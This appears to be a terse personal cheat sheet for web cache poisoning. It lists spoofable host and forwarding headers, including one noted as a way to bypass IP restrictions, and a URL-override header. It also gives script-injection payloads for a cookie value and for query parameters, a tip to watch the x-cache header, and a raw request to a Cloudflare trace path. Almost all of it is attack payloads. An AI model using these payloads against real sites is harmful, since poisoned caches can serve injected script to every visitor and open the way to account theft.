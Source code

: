 
////// HOST headers
X-Forwarded-Host: /// change host
X-Forwarded-Scheme: /// change host
X-Forwarded-For: /// bypass ip restriction block 
X-Original-Url: /// redirect to any path 
X-Host: /// if you have victim user agent


///// HOST cookie
any-cookie=someString"-alert(1)-"someString

//// url query string ===> chackout if you get x-cahce: miss after changing /?query in request 
/?lee101='/><script>alert(1)</script>
/?utm_content='/><script>alert(1)</script>


GET /cd-cgi/trace HTTP/1.1
Host: cloudflare.com